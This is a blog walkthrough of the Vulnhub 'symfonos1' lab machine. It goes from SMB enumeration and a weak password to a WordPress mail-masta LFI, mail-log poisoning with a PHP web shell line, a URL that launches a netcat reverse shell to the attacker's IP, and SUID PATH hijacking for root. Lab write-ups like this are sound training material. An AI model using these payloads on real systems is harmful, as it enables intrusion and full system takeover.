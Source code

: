 ```yaml
---
layout: post
title: "symfonos1 - Vulnhub Boot2Root"
date: 2020-06-27
ctf: true
excerpt: "Walkthrough for the symfonos1 VM"
tags: [vulnhub, symfonos, symfonos1, Boot2Root]
comments: false
---
```


Another series I ran across on vulnhub is the symfonos series, which is a total of 6 boxes of increasing difficulty. Below is the walkthrough on the first box, the easiest in the series.

## Reconnaissance & Scanning

After importing into VMware Workstation and booting up the machine, I ran `netdiscover -i eth0` to find the IP address of the machine.

![symfonos1 netdiscover](/assets/img/symfonos1-1.png)

Now that we have located the IP address of our target, we can proceed with performing an **nmap** scan to search for open ports, protocols and their versions.

![symfonos1 nmap](/assets/img/symfonos1-2.png)

Based on the scan, we can see that ssh, smtp, netbios and smb are running, along with an Apache webserver on port 80. Visiting the webpage brings us to a page with nothing special on it, just a background image.

![symfonos1 home page](/assets/img/symfonos1-3.png)

At this point, I elected to run **dirb** to enumerate the website. It came back with minimal results using the big.txt wordlist, as it just had a list of Apache's manual directories.

![symfonos1 dirb](/assets/img/symfonos1-4.png)

I next turned my attention to SMB that was running over port 445. I was able to connect as an anonymous user using **rpcclient** as shown below.

![symfonos1 rpcclient](/assets/img/symfonos1-5.png)

Running `enumdomusers` results in a user, helios, being uncovered. Running `queryuser 0x3e8` displays info about that user. `getdompwinfo` displays that the minimum characters for the password are set to 5. However before attempting to brute force the password, I wanted to enumerate the smb shares based on the result of the **nmap** scan.

![symfonos1 rpcclient info](/assets/img/symfonos1-6.png)

Next, I ran the smb-enum-shares script with nmap to enumerate smb shares.

![symfonos1 rpcclient nmap smb-enum-shares](/assets/img/symfonos1-7.png)

This showed several different shares that could be connected to anonymously **\\192.168.68.137\anonymous, \\192.168.68.137\IPC$,** and **\\192.168.68.137\print$**. There was also a **\\192.168.68.137\helios** share present that anonymous/guest access was disabled on.

At this point, I tried to connect to the shares anonymous could access to see if anything could be pilfered. This was done with **smbclient**. The anonymous share was the first to be checked. Upon connecting, there was an attention.txt file present.

![symfonos1 smbclient anonymous share](/assets/img/symfonos1-8.png)

I downloaded the file, dropped the smb connection, and read the file locally with **cat**.

![symfonos1 smbclient attention.txt](/assets/img/symfonos1-9.png)

This file lists 3 potential passwords, and we already uncovered the **helios** user earlier while running rpcclient. Let's try to connect to his share via SMB with these passwords.

![symfonos1 smbclient helios share](/assets/img/symfonos1-10.png)

Success, we were able to connect with the password of **qwerty** as helios to his directory. As shown above, there were two files in that directory we saved with **get**.

![symfonos1 research.txt todo.txt](/assets/img/symfonos1-11.png)

The **research.txt** file had info about Helios, but nothing relevant to enumerating further. The second file mentions a /h3l105 folder. Let's see what happens when we append this to the end of the website url.

![symfonos1 research.txt h3l105](/assets/img/symfonos1-12.png)

It appears that this is a wordpress site, but it is not loading completely because it's trying to access symfonos.local, lets add that to our attacking machine's host file and reload the page. This is done by running `nano /etc/hosts` and adding it as shown in the screenshot below:

![symfonos1 etc/hosts](/assets/img/symfonos1-13.png)

Once saved, reload the page again. You should now see the page properly and a login page. Next, we will use wp-scan to enumerate plugins for possible vulnerabilities.

![symfonos1 wp-scan enumerate plugins](/assets/img/symfonos1-14.png)

## Exploitation

You will come across mail-masta as one of the plugins in use. A quick Google search leads to an exploit for this on [Exploit-DB](https://www.exploit-db.com/exploits/40290).

![symfonos1 LFI exploit](/assets/img/symfonos1-15.png)

Modify the sample code and use the following url to pull a list of users on the system `http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd`.

![symfonos1 LFI etc/passwd](/assets/img/symfonos1-16.png)

Now that we are sure that LFI works, we can attempt SMTP poisoning to utilize RCE. This is accomplished with running `telnet symfonos.local 25`.

![symfonos1 smtp](/assets/img/symfonos1-17.png)

We will now send an email to Helios with a 1 line of PHP code that allows for RCE: `<?php system($_GET['c']); ?>`.

![symfonos1 smtp send](/assets/img/symfonos1-18.png)

Navigating to `http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&c=pwd` will print the working directory after the output of helios' mail.

![symfonos1 smtp RCE](/assets/img/symfonos1-19.png)

This means we should be able to create a reverse shell, lets create a netcat listener on our attacking machine with `nc -nvlp 5555` and then navigate to `symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&c=nc -e /bin/sh 192.168.68.135 5555` in the web browser and press enter, this should connect to your netcat listener.

![symfonos1 website RCE](/assets/img/symfonos1-20.png)
![symfonos1 netcat connection](/assets/img/symfonos1-21.png)

Next, we will create a TTY shell with `python -c 'import pty;pty.spawn("/bin/bash")'`.

![symfonos1 python tty shell](/assets/img/symfonos1-22.png)

Then, we will use the following `find / -perm -u=s -type f 2>/dev/null` to find all the programs that run with SUID.

![symfonos1 find](/assets/img/symfonos1-23.png)

One that stands out is **/opt/statuscheck** which has a **curl** command embedded in it when reviewing the binary with `strings /opt/statuscheck`.

![symfonos1 statuscheck](/assets/img/symfonos1-24.png)

We will take advantage of this by copying the bash shell into a curl binary in the temp directory and temporarily changing the $PATH variable to run this command instead of curl as shown below.

![symfonos1 root shell](/assets/img/symfonos1-25.png)

At this point you have root! Navigate to /root and run ls to list files, you should see **proof.txt**. Run `cat proof.txt` to view the contents of this file to finish the box.

![symfonos1 root proof.txt](/assets/img/symfonos1-26.png)










